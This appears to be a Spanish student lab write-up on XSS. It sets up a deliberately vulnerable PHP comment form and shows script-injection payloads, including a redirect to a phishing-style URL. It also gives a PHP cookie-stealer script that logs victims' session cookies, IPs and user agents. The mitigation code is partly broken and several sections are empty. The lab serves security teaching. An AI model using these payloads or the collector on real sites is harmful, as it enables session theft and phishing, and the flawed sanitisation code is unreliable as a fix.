






# PPS-Unidad3Actividad5-XSS

## Creación de página vulnerable

Partiendo del entorno de pruebas de la actividad 1 en la carpeta `www` creamos el directorio `xss` que contendrá el fichero `comment.php` con el siguente contenido:

```
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```

El codigo muestra un formulario simple sin securizar el cual explotaremos.




## Explotación XSS

### Explotación 1

En el formulario introducimos el siguiente código JS para ejemplificar que el formulario no está securizado:
```
<script>alert('XSS ejecutado!')</script>
```

Al enviar el formulario se mostrá un alert.



### Explotación 2

Con el siguiente código se redireccionará a una página de phishing:
```
<script>window.location='https://fakeupdate.net/win11/'</script>
```





## Captura cookie usuario

Creamos en el servidor web una carpeta con nombre `cookiestealer`, el cual contendrá elfichero `cookies.txt` que almacenará la cookie y el fichero `index.php` con el siguiente código encargado de capturar y guardar la cookie de sesión:

```
<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
```



Acedemos a la URL 

## Mitigación ataque XSS

Filtra caracteres problemáticos empleando la función PHP `filter_input()`.

Creamos el fichero `comment2.php` con el siguiente código:

```
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
```

Accedemos al fichero que hemos creado desde el navegador y ejecutamos uno de los scripts anteriores, vemos como no se han ejecutado.


## Sanitizar la entrada con htmlspecialchars()

Creamos el fichero `comment3.php` con el siguiente código:
```
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```
Empleado la función PHP `htmlspecialchars()` convierte los carácteres especiales en código HTML evitando la ejecución de scripts.




## Validación de entrada


## Protección contra inyecciones HTML y JS (XSS)


## Protección contra ataques CSRF

### Código Seguro